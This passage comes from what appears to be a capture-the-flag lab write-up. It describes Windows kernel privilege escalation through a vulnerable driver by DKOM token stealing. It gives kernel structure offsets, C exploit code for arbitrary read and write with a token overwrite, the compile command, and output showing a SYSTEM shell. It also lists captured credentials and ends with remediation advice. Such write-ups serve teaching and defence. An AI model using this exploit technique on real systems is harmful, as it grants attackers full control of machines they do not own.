Therefore, the cleanest and most reliable technique is Direct Kernel Object Manipulation (DKOM) Token Stealing:
- Every process running in Windows is represented in kernel memory by an
_EPROCESSstructure. - Inside
_EPROCESSis a pointer to the process'sTokenobject, which defines its security context and privileges. - If we replace our process's
Tokenpointer with theTokenpointer belonging to theSystemprocess (PID 4), our userland process immediately acquires the security rights ofNT AUTHORITY\SYSTEM!
Kernel Structure Offsets (Windows 10 Build 19045 x64):
| Field | Offset | Description |
|---|---|---|
UniqueProcessId |
0x440 |
Process ID (PID) |
ActiveProcessLinks |
0x448 |
Circular doubly-linked list (LIST_ENTRY) of all active processes |
Token |
0x4b8 |
EX_FAST_REF pointer to the Process Token |
Exploitation Workflow:
- Obtain the kernel address of the
System _EPROCESSstructure usingNtQuerySystemInformation(SystemHandleInformation). - Use our
arbRead()primitive to traverse theActiveProcessLinkslinked list starting from theSystemprocess. - Inspect
UniqueProcessId(+0x440) at each node until we locate our own process PID. - Read the 8-byte
Tokenpointer (+0x4b8) from theSystemprocess (PID 4). - Use our
arbWrite()primitive to overwrite our process'sTokenpointer (+0x4b8) with theSystemtoken. - Spawn a new command prompt (
cmd.exe). Because child processes inherit the security token of their parent, the resulting shell runs asNT AUTHORITY\SYSTEM!
Developing the C Exploit Harness (priv.c)
We write a dedicated C exploit implementing the IOCTL communication and token-stealing logic:
// Arbitrary read: dereference kernel pointer via IOCTL chain
QWORD arbRead(QWORD where) {
reap ioctl;
QWORD output;
ioctl.magic = 0x6A55CC9E;
ioctl.thread_id = GetCurrentThreadId();
ioctl.priority = 0;
ioctl.src_address = where;
ioctl.dst_address = (QWORD)&output; // write result to our userland buffer
Allocate(hFile, &ioctl);
Copy(hFile); // *(dst) = *(src) - reads kernel memory into output
Free(hFile);
return output;
}
// Arbitrary write: write 8 bytes to kernel address
void arbWrite(QWORD dst, QWORD src) {
reap ioctl;
ioctl.magic = 0x6A55CC9E;
ioctl.thread_id = GetCurrentThreadId();
ioctl.priority = 0;
ioctl.src_address = src; // pointer to our value
ioctl.dst_address = dst; // kernel address to overwrite
Allocate(hFile, &ioctl);
Copy(hFile);
Free(hFile);
}
// In main():
eProcResult result = GetEProcessByPid(GetCurrentProcessId());
eProcResult sysresult = GetEProcessByPid(4); // SYSTEM = PID 4
// Overwrite our token with SYSTEM's token
arbWrite(result.eProcess + 0x4b8, sysresult.eProcess + 0x4b8);
system("cmd.exe"); // spawns as NT AUTHORITY\SYSTEM
Compilation & Exploitation Execution
We compile priv.c using the 64-bit MinGW cross-compiler:
x86_64-w64-mingw32-gcc -o exploit.exe priv.c -lpsapi
We transfer exploit.exe to C:\Users\keysvc\Desktop\ via our existing SMB share and execute it inside our RDP session:
C:\Users\keysvc\Desktop\exploit.exe
[+] Getting Device Driver Handle
[+] Device Handle: 0x00000000000000b8
[>] System _EPROCESS: 0xffff9c0d4dc92080
[>] Found Process: ffff9c0d54bd5080 (PID: 5556, TOKEN_PTR: ffffb0092fa9d064)
[>] Found Process: ffff9c0d4dc92080 (PID: 4, TOKEN_PTR: ffffb0092920f045)
[+] Copying SYSTEM token to current process...
[+] Spawning SYSTEM shell...
C:\Users\keysvc> whoami
nt authority\system
The exploit executes cleanly, swaps the token, and spawns an interactive shell running as nt authority\system.
We navigate to the Administrator's desktop and capture the Root Flag:
C:\Users\Administrator\Desktop\root.txt
Defensive Engineering & Remediation Blueprint
To prevent similar multi-stage compromise chains in enterprise environments, developers and systems administrators should implement the following remediations:
-
Eliminate Format String Flaws (CWE-134):
- Always supply a static format specifier string to formatting functions:
// VULNERABLE: _snprintf(buffer, sizeof(buffer), user_input); // SECURE: _snprintf(buffer, sizeof(buffer), "%s", user_input);
- Always supply a static format specifier string to formatting functions:
-
Enforce Boundary Checks on Decoders (CWE-121):
- When decoding data from formats such as Base64, hex, or URL-encoding, calculate the maximum possible output length and ensure it does not exceed the destination buffer size before writing.
-
Compiler Mitigations (CFG & ASLR High Entropy):
- Compile all C/C++ services with
/guard:cf(Control Flow Guard) and/HIGHENTROPYVA(64-bit ASLR with high entropy) to restrict ROP gadget execution.
- Compile all C/C++ services with
-
Kernel Driver Pointer Validation & Access Control (CWE-129 / CWE-787):
- Kernel drivers must validate all user-mode pointer arguments using
ProbeForRead()andProbeForWrite()within__try / __exceptstructured exception handling blocks. - Restrict access to device objects using
IoCreateDeviceSecure()so that unprivileged users cannot open handles to administrative hardware drivers.
- Kernel drivers must validate all user-mode pointer arguments using
-
DPAPI Best Practices:
- Avoid storing unmanaged plaintext passwords in automated scripts. Leverage Windows Credential Manager or dedicated secret vaults (such as HashiCorp Vault or Azure Key Vault) with hardware-backed TPM sealing.
Credentials Summary
| Username | Password | Method | Scope / Access |
|---|---|---|---|
keysvc |
(shell via BOF+ROP) | Format string leak + 64-bit VirtualAlloc ROP | Reverse shell on Port 9001 |
keysvc |
CatWinterMist10 |
DPAPI blob decryption via .NET Reflection | Interactive GUI access via RDP (Port 3389) |
SYSTEM |
- | Kernel driver token stealing via reaper.sys |
Full system compromise (NT AUTHORITY\SYSTEM) |